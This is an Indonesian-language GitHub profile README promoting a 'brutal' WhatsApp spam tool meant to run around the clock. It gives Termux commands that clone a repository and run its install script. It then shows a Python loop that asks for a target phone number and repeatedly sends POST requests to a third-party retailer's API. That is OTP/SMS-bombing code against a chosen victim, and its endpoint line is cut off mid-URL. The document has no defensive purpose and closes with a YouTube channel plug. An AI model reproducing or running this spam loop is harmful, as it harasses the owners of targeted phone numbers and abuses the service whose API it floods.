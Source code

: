 # Made By Mr. E-Cyber Team
Spam Brutal WhatsApp 24 jam non stop

<details open>
  <summary><strong> Install Package + Run Script </strong></summa>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/teamcyber-glitch/ToolsWA
  bash install.sh
  
  #sabar belum rilis, tahap penyempurnaan
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  import os,sys,time,requests,json
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

  <details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  import os,sys,time,requests,json
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/r>
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<
https://youtube.com/channel/UCprM5VxY0pQ_i3tZO5Leaqw

<!---
teamcyber-glitch/teamcyber-glitch is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
